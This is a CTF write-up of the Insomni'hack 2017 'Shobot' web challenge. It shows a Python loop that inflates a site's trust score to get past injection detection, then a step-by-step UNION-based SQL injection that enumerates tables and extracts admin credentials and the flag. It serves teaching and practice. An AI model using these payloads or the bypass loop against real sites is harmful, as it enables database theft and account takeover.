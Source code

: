 ```yaml
---
title: "Insomni'hack teaser: Shobot (web 200)"
date: 2017-01-22T11:22:32+02:00
draft: false
tags:
    - SQL Injection
category: Writeup
---
```


You were presented with an online store that sold robots. We didn't manage to solve this challenge in time.

### What we did correct
The website had a function running that calculates a user's trust level based on how many products he/she buys. If you tried any SQL injection in the URL parameters with low trust level, the server would detect it and lower your trust level. Once you reached the maximum trust level, you could successfully execute SQL injections.

### What we missed
We did not experiment with how far the trust level went, had we done that we would have reached 160 and our SQL injection would have gone through.

### What we did wrong
```python
import requests,time
s = requests.Session()
cookie= dict(PHPSESSID= 'f5hnhjd5qbiiebu9v057fe6m51')
while True:
    time.sleep(0.5)
    r = s.get('http://shobot.teaser.insomnihack.ch/?page=article&artid=1&addToCart', cookies=cookie)
    r = s.get('http://shobot.teaser.insomnihack.ch/?page=cartconfirm', cookies=cookie)
```

Once we had the above script running, boosting the trust level to 160, we could do SQL injection in one of the parameters.
We noticed that this worked, to verify there was an SQLi:

**ERROR**: `http://shobot.teaser.insomnihack.ch/?page=article&artid=2' and '1'='2`

**SUCCESS**: `http://shobot.teaser.insomnihack.ch/?page=article&artid=2' and '1'='1`
 
So next step would be to figure out how many columns there are by running the classic:
 
`2' order by 1 --`
 
But that didn't work, because the comment had to be url_encoded. The double dash comment (--) was also incorrect. In order for the query to work you would have to url_encode the # for comment.
What we should have done
The working query looks like this:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=2' order by 5 %23`
 
By doing `2' order by N %23` you can find the number of columns in the query, this is necessary because the UNION operator can only be used if both queries have the same structure. Therefore the attacker needs to create a SELECT statement similar to the original query.

If you keep increasing `N` until you reach 6, the page will disappear, meaning the column count is 5. Now we know there are 5 columns and can continue like this (you do this directly to figure out the number of columns):
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,2,3,4,5 %23`
 
Notice the `-2`, in order for this to work you have to select a non existent id, putting a minus (-) sign usually get the job done. The numbers that shows on the page are the columns that you can interact with. The numbers 2, 3 and 5 showed, so we can do this:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,@@version,3,4,5 %23`
 
Should show the mysql version. Now lets retrieve the tables so we know that we are working with:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,group_concat(table_name),3,4,5 FROM information_schema.tables where table_schema=database() %23`
 
We are selecting from `information_schema.tables` which contains information about all the tables. Then we make sure the `table_schema` is set to the current database, meaning want tables for the current database. We have two tables, the result is: `article, shbt_user`. Now we can retrieve the column names from the shbt_user table:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,group_concat(column_name),3,4,5 FROM information_schema.columns where table_schema=database() %23`
 
Result: `id,name,description,img_link,price,shbt_userid,shbt_username,shbt_userpassword`. Let's get the values for `shbt_username, shbt_userpassword` by running the following query:
 
`http://shobot.teaser.insomnihack.ch/?page=article&artid=-2' union select 1,concat(shbt_username,0x3a,shbt_userpassword),3,4,5 FROM shbt_user %23`
 
The result is: `sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry`. Now we can login to the admin site and collect the **flag**: `INS{##r0b0tss!4v3ry1s!4m3}`

## What have we learned?
- Always try all the possible comment signs for mysql and always try to encode.
- Always experiment with values.

